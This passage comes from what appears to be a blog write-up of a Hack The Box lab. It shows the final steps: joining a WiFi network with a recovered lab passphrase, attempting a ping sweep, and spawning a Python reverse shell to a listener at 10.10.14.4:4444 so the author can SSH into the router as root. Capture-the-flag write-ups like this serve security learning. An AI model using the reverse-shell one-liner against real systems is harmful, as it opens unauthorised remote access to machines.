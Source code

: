 ```
ifconfig wlan0 192.168.1.91 netmask 255.255.255.0
```

So, we are now connected to a new wifi network (I picked *192.168.1.91* randomly). There might be other devices there, so we want to scan the network. Obviously, *nmap* isn't installed on the machine. Instead, we can do a ping sweep using the *ping* command:

```
for i in {1..254}; do ping -c 1 192.168.1.$i | grep "64 bytes" | cut -d " " -f 4; done
```
Unfortunately, the terminal freezes once again when we use this command.

After checking *iwconfig*, I realized something went wrong and I wasn't connected to the network.\\
So, I deleted my configuration file (*wpa_supplicant.conf*), and created a new one with *wpa_passphrase*:

```
wpa_passphrase plcrouter 'NoWWEDoKnowWhaTisReal123!' > wpa_supplicant.conf
```

Then, we try to connect once again:

```
sudo wpa_supplicant -B -i wlan0 -c /etc/wpa_supplicant/wpa_supplicant.conf
```

This time, we are properly connected. I wanted to do a ping sweep, but my terminal freezes everytime and I had to restart the box and redo everything several times...
So, we can try to take a shortcut. Now, we are connected to the network with the address *192.168.1.91*.\\
One thing we would expect to see in the ping sweep result is the router. The two most common addresses for routers are *192.168.1.1* and *192.168.0.1*.\\
So, we can try to SSH into this router.\\
Unfortunately, it didn't work from my initial terminal and I had the error "*Pseudo-terminal will not be allocated because stdin is not a terminal. Host key verification failed*".\\
I tried using the usual "*python3 -c 'import pty;pty.spawn("/bin/bash")'*" command, but it didn't resolve the problem. What I ended up doing is starting a new netcat listener, and issue the following command:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4", 4444));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("sh")'
```

Then, from this shell, I was able to SSH into the router:

<div class="img_container">
![root]({{https://jsom1.github.io/}}/_images/htb_wifi_root.png)
</div>

And this is it for this box!

<div class="img_container">
![pwn]({{https://jsom1.github.io/}}/_images/htb_wifi_pwn.png){: height="400px" width = "400px"}
</div>
